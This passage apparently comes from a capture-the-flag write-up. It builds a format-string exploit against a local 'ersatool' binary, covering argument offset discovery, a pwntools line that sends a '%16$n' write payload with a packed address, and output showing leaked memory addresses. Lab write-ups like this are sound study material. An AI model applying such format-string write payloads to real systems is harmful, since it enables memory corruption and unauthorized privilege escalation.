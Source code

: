 To get around this, I'll put the address at the end of the string. I
want this address to be at a fixed point relative to my input, even if
my input changes, so I'll create a fixed length of space for various
format strings, and then put the address, and try to print it. After
some playing around, I found that with 64 bytes for format string and
then the address, the address was the 16th argument:



    print->CN=%16$016pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    0x4242424242424242AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB[!] ERR reading /opt/easyrsa/clients/%16$016pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB.ovpn!



This gives me a lot of space to change the start of the payload, and as
long as I adjust the padding, the address (right now `BBBBBBBB`) will
stay in the same place. I can use this template, replacing the As with
other specifiers as needed, and leave the address at that offset, and
now know how to reference it.

I'll add this line before the last `p.interactive()` line in my script:



    p.sendline("%16$20p".ljust(64, '.').encode() + p64(ersa_dir_addr))



It works:



    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 543293
    [+] Leaked EXT address:          0x0000558319fe215f
    [+] Calculated ERSA_DIR address: 0x0000558319fe20f0
    [*] Switching to interactive mode
          0x558319fe20f0.........................................................\xf0 \xfe\x83U[!] ERR reading /opt/easyrsa/clients/%16$20p.........................................................\xf0 \xfe\x83U.ovpn!

    print->CN=$



The output line has a 20 character address padded with spaces followed
by periods as filler until it reaches the address I passed in, stopping
a the null bytes.

I'll change the line a bit now:



    p.sendline("%16$20p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))



Running this prints the same thing:



    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 545730
    [+] Leaked EXT address:          0x00005640f813e15f
    [+] Calculated ERSA_DIR address: 0x00005640f813e0f0
    [*] Switching to interactive mode
    0x5640f813e0f0....................................................\xf0\xe0\xf8@V[!] ERR reading /opt/easyrsa/clients/%16$20p%16$n....................................................\xf0\xe0\xf8@V.ovpn!
